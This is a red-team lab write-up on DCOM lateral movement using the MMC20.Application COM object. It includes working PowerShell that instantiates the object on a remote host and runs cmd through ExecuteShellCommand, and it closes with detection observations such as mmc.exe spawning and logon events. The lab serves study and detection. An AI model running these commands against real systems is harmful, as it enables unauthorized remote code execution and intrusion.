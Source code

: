 ```yaml
---
description: Lateral Movement via Distributed Component Object Model
---
```


# T1175: Lateral Movement via DCOM

> The Microsoft Component Object Model \(COM\) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE \(compound documents\), ActiveX \(Internet-enabled components\), as well as others.
>
> [https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing command on the victim system via DCOM object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](../.gitbook/assets/dcom-rce.png)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../.gitbook/assets/dcom-mmc-bind.png)

![](../.gitbook/assets/dcom-listening.png)

![](../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):

![](../.gitbook/assets/dcom-logon-event.png)

![](../.gitbook/assets/dcom-connection2.png)

## References

{% embed url="https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2\#System\_Type\_GetTypeFromCLSID\_System\_Guid\_System\_String\_" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1175" %}

